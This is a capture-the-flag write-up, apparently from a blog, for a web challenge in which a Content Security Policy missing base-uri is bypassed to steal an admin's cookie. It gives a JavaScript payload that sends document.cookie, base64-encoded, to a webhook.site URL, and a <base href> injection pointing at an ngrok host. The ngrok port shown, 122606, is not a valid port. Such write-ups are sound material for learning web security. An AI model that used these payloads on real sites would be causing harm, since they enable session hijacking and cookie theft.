








## Description

///caption
///


///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.


## Solution
The biggest difference of rainbow1 and rainbow2 is basically just this line:

 
///caption
///
From the code above basically it checks all types of content and only allows content from the same origin as the website itself or its subdomains to be loaded. It also permits scripts from same origin or inline scripts with the specific nonce (a1b2c3d4e5f6g7h8) are allowed to execute.


///caption
///
Other details can refer to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy. So obviously the previous payload using `<svg>` won’t work.


///caption
///
Hint released shows that we can utilize `<base>` tag which is a complete new thing for me. Found a payload at https://www.cobalt.io/blog/csp-and-bypasses `<Base Href=//X55.is>` that proves that `<base>` works. Also found a good tool that helps to evaluate the strength and weaknesses of CSP https://csp-evaluator.withgoogle.com/  and it hints us that base-uri and object-src are missing from the CSP.
Means can do base-uri injection,  found a very decent [writeup](https://medium.com/@dev.abdulhaq/csp-bypass-challenge-in-ebhadra-ctf-b2ec2f735e23) on solving this kind of challenge. <br>
So, basically i just host a python server with my js script in the directory (self created) of `/static/rainbowifyText.js` because the HTML document is loading an external JavaScript file called `rainbowifyText.js` from the `/static/` directory on the server.
Payload on server: 
```javascript {frame="none"}
window.location="https://webhook.site/ccffcd19-da9c-4b78-a725-7377e2cab03b/"+btoa(document.cookie);
```


///caption
///
Then I threw the same port I hosted with python to ngrok to make it public (at first i was running on http, but apparently it had some issues, so I hosted it with ngrok tcp 3000, copy the forwarding address and paste in into the href part of our payload)
Then send the payload below in the web app:
```javascript {frame="none"}
<base href="tcp://0.tcp.ap.ngrok.io:122606"></base>
```


///caption
///
At first I sent it on the main index page to check if it works, then saw the request was coming into webhook, so just proceed to `/report` endpoint to send the payload. Flag was appended at the end of the URL encoded as base64 because according to the payload sent from my server. 


///caption
///
 So just move to cyber chef decode and here we got the flag! 
 